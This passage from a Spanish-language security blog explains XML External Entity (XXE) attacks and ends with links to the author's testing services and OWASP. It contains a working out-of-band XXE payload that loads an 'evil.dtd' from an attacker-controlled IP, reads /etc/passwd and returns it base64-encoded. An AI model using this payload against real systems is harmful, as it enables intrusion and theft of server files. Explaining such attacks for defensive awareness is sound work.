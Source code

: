 ![](https://seguridad-ofensiva.com/blog/ptukregr/2019/10/word-image-12.png)

Para llamar al archivo evil.dtd, se debe reconfigurar el código XML previamente creado. De esta forma, el archivo malicioso se ejecutara como proceso de respuesta en el sitio web vulnerable:

```markup
<!DOCTYPE r [ 
<!ELEMENT r ANY> 
<!ENTITY sp SYSTEM “http://192.168.106.128:8000/evil.dtd” > 
%sp;
%param1;
]>
<r>&exfil;</r>

<root><name>&sp;</name><password>admin</password></root>
```

![](https://seguridad-ofensiva.com/blog/ptukregr/2019/10/word-image-13.png)

Cuando, la solicitud se envía al servidor, se procesa el archivo evil.dtd y obtenemos el contenido del archivo “/etc/passwd” que se muestra codificado como base64.

![](https://seguridad-ofensiva.com/blog/ptukregr/2019/10/word-image-14.png)

Y finalmente el archivo después de ser decodificado:

![](https://seguridad-ofensiva.com/blog/ptukregr/2019/10/word-image-15.png)

## ¿ES COMÚN ESTA VULNERABILIDAD?

Si. Hemos visto este tipo de vulnerabilidades en servidores web, bases de datos como MySQL y PostgreSQL, plataformas de imágenes y navegadores web. Cada sitio web que ejecuta algún tipo de código XML debe ser analizado.

**¿CÓMO DESCUBRIR SI MI APLICACIÓN ESTÁ AFECTADA?**

Para saber si las aplicaciones de su sitio web son vulnerables, se requiere una revisión de las aplicaciones junto a otros tipos de análisis para descubrir otras vulnerabilidades aún más peligrosas como la inclusión remota o local de archivos, servidores con opción PUT configurada, autenticación vía token, POODLE, XSS, y SSRF, entre otras.

#### **Solución y prevención**

[https://seguridad-ofensiva.com/evaluaciones-de-vulnerabilidades](https://seguridad-ofensiva.com/evaluaciones-de-vulnerabilidades)

[https://seguridad-ofensiva.com/pruebas-de-penetracion-externas](https://seguridad-ofensiva.com/pruebas-de-penetracion-externas)

[https://seguridad-ofensiva.com/pruebas-de-penetracion-en-sitios-web](https://seguridad-ofensiva.com/pruebas-de-penetracion-en-sitios-web)

**Recursos adicionales con relación a este tipo de ataque**:

[https://owasp.org/www-project-top-ten/OWASP\_Top\_Ten\_2017/Top\_10-2017\_A4-XML\_External\_Entities\_\(XXE\).html](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_%28XXE%29.html)
